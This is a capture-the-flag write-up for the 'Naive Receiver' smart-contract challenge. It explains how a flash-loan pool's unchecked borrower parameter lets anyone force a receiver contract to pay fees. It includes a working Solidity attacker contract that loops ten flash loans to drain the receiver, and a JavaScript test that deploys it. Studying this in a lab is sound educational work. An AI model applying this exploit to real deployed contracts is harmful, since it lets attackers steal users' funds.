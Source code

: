 # Naive Receiver

## Challenge

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

## Solution

Our goal is to drain all funds from the `FlashLoanReceiver` contract. We observe that the only place this contract sends funds to an external account is within the `receiveEther` function.

```solidity
function receiveEther(uint256 fee) public payable {
    require(msg.sender == pool, "Sender must be pool");

    uint256 amountToBeRepaid = msg.value + fee;

    require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");

    _executeActionDuringFlashLoan();

    // Return funds to pool
    pool.sendValue(amountToBeRepaid);
}
```

The first require makes this function only callable by the lending pool. Let us look at the signature of the `flashLoan` function in the `NaiveReceiverLenderPool` contract

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant
```

The fact that this function is `external` gives us the idea that if we trust the lending pool, nothing wrong should happen. However when calling this function from an external source passing the borrower parameter to be the addess of `FlashLoanReceiver`, the following function will be executed

```solidity
borrower.functionCallWithValue(
    abi.encodeWithSignature(
        "receiveEther(uint256)",
        FIXED_FEE
    ),
    borrowAmount
);
```

In this context, even if the external actor made this function to execute, `msg.sender` is the lending pool. Therefore `receiveEther` will execute without any issues.

This is exactly where the vulnerability can be exploited. Making an external call to the `flashLoan` function will force the `FlashLoanReceiver` contract to pay the fee for the loan. If we are able to call 10 times this `flashLoan` function, all funds of `FlashLoanReceiver` will be transferred to `NaiveReceiverLenderPool`. In order to do so in one transaction, we will deploy an `AttackerNaiveReceiver` contract.

### Attacker contract

We first create an interface to interact with the lender contract as follows

```solidity
interface ILenderPool{
    function flashLoan(address borrower, uint256 borrowAmount) external;
}
```

Then we create the attacker contract with a function that will execute 10 times in a row a flashloan for only 1 ether, each time getting 1 ether in fees being transferred to the `NaiveReceiverLenderPool` contract

contract AttackerNaiveReceiver {
function attack(address \_lenderPool, address \_naiveReceiver) public {
for (uint i = 0; i < 10; i++) {
ILenderPool(\_lenderPool).flashLoan(\_naiveReceiver, 1 ether);
}
}
}

This contract is stored in [this file](./AttackerNaiveReceiver.sol).

### Deployment Script

The only thing we need to do now is to deploy the attacker contract and pass the address of both the lending and the receiver contracts. We complete the code in [`naive-receiver.challenge.js`](../../test/naive-receiver/naive-receiver.challenge.js) as follows

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE */
  const Attacker = await ethers.getContractFactory(
    "AttackerNaiveReceiver",
    attacker
  )
  attackerContract = await Attacker.deploy()
  await attackerContract.attack(this.pool.address, this.receiver.address)
})
```
